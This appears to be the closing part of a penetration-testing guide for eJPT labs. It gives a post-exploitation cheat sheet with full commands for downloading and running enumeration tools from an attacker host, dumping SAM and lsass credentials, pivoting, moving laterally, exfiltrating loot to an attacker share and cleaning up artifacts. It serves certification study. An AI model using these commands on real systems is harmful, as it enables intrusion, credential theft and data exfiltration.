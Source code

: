 Windows:

```cmd
del %TEMP%\winpeas.exe %TEMP%\procdump.exe %TEMP%\lsass.dmp 2>NUL
del C:\Windows\Temp\SAM.save C:\Windows\Temp\SYSTEM.save C:\Windows\Temp\SECURITY.save 2>NUL
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /f 2>NUL
net use \\ATTACKER_IP\share /delete 2>NUL
```

Document timestamps, commands run, and artifacts collected.

## Practical tips

- Decide early: do you need persistence (allowed?), or is escalation + loot enough for the objective.
- Upgrade shells immediately; interactive TTY saves time and reduces errors.
- Run automated enum (linPEAS/winPEAS), but also do quick manual checks for “low‑hanging fruit.”
- Always capture config files of apps you compromise; credentials often hide in plain text.
- Use SOCKS pivoting to keep tools on your box; minimize tool uploads on target to avoid detection.
- Prefer pass‑the‑hash/ticket over dumping passwords when possible.
- Keep a “loot” folder with clear hostnames/IPs and subfolders for creds, configs, and outputs.
- Be surgical: small nmap scans, targeted directory searches, minimal exfil.
- Respect OPSEC and scope — no destructive log wiping in typical eJPT labs unless directed.

## Minimal cheat sheet (one‑screen flow)

- Stabilize
  - Linux TTY: python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm; stty raw -echo; fg; reset
  - Attacker listener: rlwrap nc -lvnp 4444
- Triage
  - Linux: id; sudo -l; uname -a; cat /etc/os-release; ip a; ss -tulpn; crontab -l; find / -perm -4000 -type f 2>/dev/null
  - Windows: whoami /all; systeminfo; ipconfig /all; netstat -ano; schtasks /query /fo LIST /v; wmic service …
- Privesc enum
  - Linux: curl http://ATTACKER_IP:8000/linpeas.sh -o /tmp/linpeas.sh; chmod +x; /tmp/linpeas.sh
  - Windows: iwr -useb http://ATTACKER_IP:8000/winPEASx64.exe -OutFile $env:TEMP\winpeas.exe; & $env:TEMP\winpeas.exe
- Creds
  - Linux: grep -R "pass|secret|key" /var/www /etc /home; if root: reg dump /etc/shadow -> unshadow
  - Windows: reg save SAM/SYSTEM/SECURITY; procdump lsass; secretsdump/pypykatz
- Pivot
  - Attacker: chisel server -p 8000 --reverse
  - Victim: chisel client ATTACKER_IP:8000 R:1080:socks
  - proxychains -q nmap -sT -Pn -n --open 10.0.0.0/24
- Lateral
  - psexec.py USER@HOST or -hashes LM:NTHASH
  - evil-winrm -i HOST -u USER -p PASS
  - crackmapexec smb 10.0.0.0/24 -u USER -p PASS --shares
- Exfil
  - SMB: impacket-smbserver share $(pwd)
  - Windows: copy loot to \\ATTACKER_IP\share\
